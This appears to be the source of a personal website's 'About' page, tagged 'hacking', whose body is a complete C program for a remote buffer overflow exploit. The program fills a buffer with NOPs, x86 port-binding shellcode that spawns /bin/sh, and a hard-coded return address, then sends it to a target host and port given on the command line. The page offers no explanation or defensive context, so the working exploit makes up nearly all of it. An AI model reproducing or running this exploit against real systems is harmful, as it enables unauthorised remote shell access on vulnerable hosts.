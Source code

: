```yaml
---
layout: page
permalink: /about/
title: About Neil
tagline: Ronneil, Neil
tags: [about, hacking]
modified: 9-9-2013
comments: true
image:
  feature: texture-feature-01.jpg
---
```


{% highlight c %}
#include <stdio.h>
#include <netdb.h>
#include <netinet/in.h>

//Portbinding Shellcode

char shellcode[] =
"\x89\xe5\x31\xd2\xb2\x66\x89\xd0\x31\xc9\x89\xcb\x43\x89\x5d\xf8"
"\x43\x89\x5d\xf4\x4b\x89\x4d\xfc\x8d\x4d\xf4\xcd\x80\x31\xc9\x89"
"\x45\xf4\x43\x66\x89\x5d\xec\x66\xc7\x45\xee\x0f\x27\x89\x4d\xf0"
"\x8d\x45\xec\x89\x45\xf8\xc6\x45\xfc\x10\x89\xd0\x8d\x4d\xf4\xcd"
"\x80\x89\xd0\x43\x43\xcd\x80\x89\xd0\x43\xcd\x80\x89\xc3\x31\xc9"
"\xb2\x3f\x89\xd0\xcd\x80\x89\xd0\x41\xcd\x80\xeb\x18\x5e\x89\x75"
"\x08\x31\xc0\x88\x46\x07\x89\x45\x0c\xb0\x0b\x89\xf3\x8d\x4d\x08"
"\x8d\x55\x0c\xcd\x80\xe8\xe3\xff\xff\xff/bin/sh";

//standard offset (probably must be modified)
#define RET 0xbffff5ec

int main(int argc, char *argv[]) {
    char buffer[1064];
    int s, i, size;
    struct sockaddr_in remote;
    struct hostent *host;

    if (argc != 3) {
        printf("Usage: %s target-ip port\n", argv[0]);
        return -1;
    }

    // filling buffer with NOPs
    memset(buffer, 0x90, 1064);

    //copying shellcode into buffer
    memcpy(buffer+1001-sizeof(shellcode) , shellcode, sizeof(shellcode));

    // the previous statement causes a unintential Nullbyte at buffer[1000]
    buffer[1000] = 0x90;

    // Copying the return address multiple times at the end of the buffer...

    for(i=1022; i < 1059; i+=4) {
        * ((int *) &buffer[i]) = RET;
    }

    buffer[1063] = 0x0;

    //getting hostname

    host=gethostbyname(argv[1]);

    if (host==NULL) {
        fprintf(stderr, "Unknown Host %s\n",argv[1]);
        return -1;
    }

    // creating socket...
    s = socket(AF_INET, SOCK_STREAM, 0);

    if (s < 0) {
        fprintf(stderr, "Error: Socket\n");
        return -1;
    }

    //state Protocolfamily , then converting the hostname or IP address, and getting port number
    remote.sin_family = AF_INET;
    remote.sin_addr = *((struct in_addr *)host->h_addr);
    remote.sin_port = htons(atoi(argv[2]));

    // connecting with destination host

    if (connect(s, (struct sockaddr *)&remote, sizeof(remote))==-1) {
        close(s);
        fprintf(stderr, "Error: connect\n");
        return -1;
    }

    //sending exploit string
    size = send(s, buffer, sizeof(buffer), 0);
    if (size==-1) {
        close(s);
        fprintf(stderr, "sending data failed\n");
        return -1;
    }

    // closing socket

    close(s);

}
{% endhighlight %}